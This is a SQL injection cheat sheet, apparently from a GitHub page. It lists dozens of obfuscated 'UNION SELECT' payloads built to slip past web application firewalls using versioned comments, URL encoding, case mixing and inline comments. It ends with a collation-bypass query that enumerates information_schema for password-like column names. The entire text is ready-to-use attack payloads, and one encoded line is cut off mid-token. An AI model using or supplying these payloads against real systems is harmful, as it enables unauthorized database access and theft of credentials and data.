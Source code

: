 ` /*!50000UniON SeLeCt*/`
` union /*!50000%53elect*/`
` +#uNiOn+#sEleCt`
` +#1q%0AuNiOn all#qa%0A#%0AsEleCt`
` /*!%55NiOn*/ /*!%53eLEct*/`
` /*!u%6eion*/ /*!se%6cect*/`
` +un/**/ion+se/**/lect`
` uni%0bon+se%0blect`
` %2f**%2funion%2f**%2fselect`
` union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
` REVERSE(noinu)+REVERSE(tceles)`
` /*--*/union/*--*/select/*--*/`
` union (/*!/**/ SeleCT */ 1,2,3)`
` /*!union*/+/*!select*/`
` union+/*!select*/`
` /**/union/**/select/**/`
` /**/uNIon/**/sEleCt/**/`
` /**//*!union*//**//*!select*//**/`
` /*!uNIOn*/ /*!SelECt*/`
` +union+distinct+select+`
` +union+distinctROW+select+`
` +UnIOn%0d%0aSeleCt%0d%0a`
` UNION/*&test=1*/SELECT/*&pwn=2*/`
` un?+un/**/ion+se/**/lect+`
` +UNunionION+SEselectLECT+`
` +uni%0bon+se%0blect+`
` %252f%252a*/union%252f%252a /select%252f%252a*/`
` /%2A%2A/union/%2A%2A/select/%2A%2A/`
` %2f**%2funion%2f**%2fselect%2f**%2f`
` union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
` /*!UnIoN*/SeLecT+`

**Union Select by PASS with Url Encoded Method:**
%55nion(%53elect)
union%20distinct%20select
union%20%64istinctRO%57%20select
union%2053elect
%23?%0auion%20?%23?%0aselect
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
%55nion %53eLEct
u%6eion se%6cect
unio%6e %73elect
unio%6e%20%64istinc%74%20%73elect
uni%6fn distinct%52OW s%65lect
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
**Illegal mix of Collations ByPass Method :**
unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))

` /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`

` union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`
